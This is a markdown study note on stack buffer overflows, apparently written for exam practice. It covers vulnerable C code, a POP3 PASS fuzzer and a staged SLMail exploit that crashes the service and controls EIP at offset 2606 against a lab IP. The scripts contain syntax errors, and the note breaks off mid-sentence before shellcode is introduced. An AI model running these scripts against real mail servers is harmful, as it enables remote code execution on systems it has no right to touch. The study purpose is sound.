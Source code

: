 # Buffer Overflows
* Stack

## Vulnerable Code

vuln.c
```c
#include <stdio.h>

int main(int argc, char *argv[])

{
  char buffer[64];

  if (argc < 2)
  {
    printf("syntax error\r\n");
    printf("must supply at least one argument\r\n")
    return(1);
  }
  strcpy(buffer,argv[1]);
  return(0);
}
```


* Supply more than 64 bytes and this crashes

Registers to remember
* ESP - Extended Stack Pointer
  * push and pop values
* EIP - Extended Instruction Pointer
  * holds the current address location for the instruction being executed at any given time

### OllyDbg Layout

Bottom right - shows stack memory at any given moment

Bottom left - Allows us to see memory dumps

Look for where main function begins


## Windows BO Example

3 ways to identify bugs:

1. look at source code
2. identify input points and send malformed data known as fuzzing
3. reverse engineering techniques

### Fuzzing

pop3-pass-fuzz.py

```python
#!/usr/bin/python
import socket

# Create an array of buffers, while incrementing them.

buffer=["A"]
counter=100
while len(buffer) <=30:
  buffer.append("A"*counter)
  counter=counter+200

# Each one of these buffers is a password with varying lengths
for string in buffer:
  print "Fuzzing PASS with %s bytes" % len(string)
  s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  connect=s.connect(('192.168.30.35',110))
  s.recv(1024)
  s.send('USER test\r\n'')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()

```

### Crash Replication

About 2700 bytes causes overflow for SLMail

slmail-pop3.py

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = A * 2700

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

### Controlling EIP

Send a unique string of 2700 bytes then note the 4 bytes that overwrite the EIP

Helpful tool to create unique string
`pattern_create.rb 2700`

then swap out the AAAAs with a unique string

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = UNIQUE_STRING

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

`pattern_offset.rb 39694438`
* will tell offset of 2606

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = "A" * 2606 + "B" * 4 + "C" * 90

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

### Introducing Shellcode

Look at ESP for where the Cs start

350-450 bytes


```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = "A" * 2606 + "B" * 4 + "C" * (3500-2606-4)


try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

This will increase the space we can use. (424 bytes)

Metasplot has a shellcode generator

### Bad Characters

There may be certain characters that are considered bad and shouldn't be used in shellcode.

NULL byte opcode - hex 00
* also used to terminate a string copy operation

CR return character - hex 0D

Send 00 - FF to u













## Linux BO Example
